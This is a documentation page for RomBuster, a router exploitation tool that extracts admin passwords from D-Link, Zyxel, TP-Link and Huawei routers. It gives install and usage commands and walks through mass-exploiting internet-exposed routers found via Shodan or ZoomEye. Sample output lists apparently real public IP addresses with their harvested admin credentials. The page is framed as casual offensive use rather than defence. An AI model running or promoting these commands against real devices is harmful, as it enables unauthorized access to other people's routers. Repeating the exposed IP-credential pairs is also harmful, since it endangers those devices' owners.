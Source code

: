 ```yaml
---
title : "RomBuster"
# pre : ' '
description : "RomBuster is a router exploitation tool that allows to disclosure network router admin password."
date : 2021-07-06T11:24:47+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## RomBuster

Is a router exploitation tool that allows to disclosure network router admin password.

**Features**:

* Exploits vulnerabilities in most popular routers such as D-Link, Zyxel, TP-Link and Huawei.
* Optimized to exploit multiple routers at one time from list.
* Simple CLI and API usage.

## Installation

```plain
python3 -m pip install git+https://github.com/EntySec/RomBuster
```

## Usage

```plain
rombuster [-h] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

## Flags

```plain
RomBuster is a router exploitation tool that allows to disclosure network router admin password.

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

## Examples

### Exploiting single router

Let's hack my router just for fun.

```plain
rombuster -a 192.168.99.1
```

### Exploiting routers from Internet

Let's try to use Shodan search engine to exploit routers over Internet.

```plain
rombuster --shodan [API-KEY]
```

```plain
$ rombuster --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (187.200.68.1:80) - admin:3931623066
[+] (2.191.126.139:80) - admin:admin
[*] Exploiting...
```

### Exploiting routers from input file

Let's try to use opened database of routers.

```plain
rombuster -i routers.txt -o passwords.txt
```

NOTE: It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## URL List

* [Github.com - RomBuster](https://github.com/EntySec/RomBuster)

